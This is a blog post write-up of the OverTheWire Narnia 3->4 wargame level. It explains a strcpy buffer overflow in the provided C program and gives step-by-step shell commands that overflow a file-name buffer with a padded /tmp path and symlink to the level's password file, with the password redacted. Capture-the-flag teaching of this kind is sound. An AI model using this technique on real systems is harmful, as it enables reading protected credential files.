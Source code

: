 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 3 -> 4"
subtitle:   "Write-Up"
date:       2017-03-05 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Let's go back to another reverse engineering challenge from OverTheWire. Today we'll be dealing with a little different type of buffer overflow.  </p>

<h1>Challenge</h1>

<p>This time, we can start by firstly running the program. </p>

{% highlight text %}
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
{% endhighlight %}

<p>But what can we see in the source code? </p>

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}

<p>This code may look complicated at first. But, after taking a closer look, we can see a potential buffer overflow vulnerability in <b>ifile</b> buffer, which is 32 bytes in size. </p>

<p>Because <b>strcpy()</b> does not perform any checks of the length of the input, if I give a file name longer than 32 bytes in length, I would be able to overwrite the <b>ofile</b> from <b>/dev/null</b> to another file. </p>

<p>It's known bug in the strcpy man pages: </p>

<p><i>If the destination string of a strcpy() is not large enough, then  anything  might  happen.   Overflowing  fixed-length  string  buffers is a favorite cracker technique for taking complete control of the  machine. Any  time  a  program  reads  or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary  if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make  the  impossible possible.</i></p>

<p>Firstly, I'm going to create a file in <b>/tmp</b> directory, where possibly, the password for the next level will end up.  </p>

{% highlight text %}
narnia3@melinda:~$ cd /tmp
narnia3@melinda:/tmp$ touch w3ndige
{% endhighlight %}

<p>Then, I'm going to use Python and calculate how long the directory should be, together with <b>/tmp/</b> beggining. We can also generate letters for our directory name. </p>

{% highlight python %}
>>> 32 - len("/tmp/")
27
>>> print("/tmp/" + "A"*27)
/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA
{% endhighlight %}

<p>Now, let's move on and create a directory. But because its name will only fulfill the buffer, we have to add another one, which will overwrite the buffer. </p>

{% highlight text %}
narnia3@melinda:/tmp$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAW     
narnia3@melinda:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAW
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ mkdir tmp
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ cd tmp
{% endhighlight %}

<p>Now we can create a link using <b>ln</b> command on w3ndige file, to the password file. This means that when we cat the created file, it will actually cat the content of the password file “/etc/narnia_pass/narnia4”. We can also see, if it works, using <b>ls</b> command.  </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ln -s /etc/narnia_pass/narnia4 ./w3ndige
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Feb 28 20:18 w3ndige -> /etc/narnia_pass/narnia4

{% endhighlight %}

<p>Now we have to pass this directory, as an argument, to the binary. Let's pray it works. </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige to a safer place... (/tmp/w3ndige)
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ cat /tmp/w3ndige
**********
{% endhighlight %}

<p>And it worked, now we have the password! </p>

<h1>Conclusion</h1>
<p>Once gain thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm definitely looking forward to new challenges from <b>Narnia</b>, as I'm getting more and more interested in reverse engineering. </p>

<p>~ Stay safe!</p>
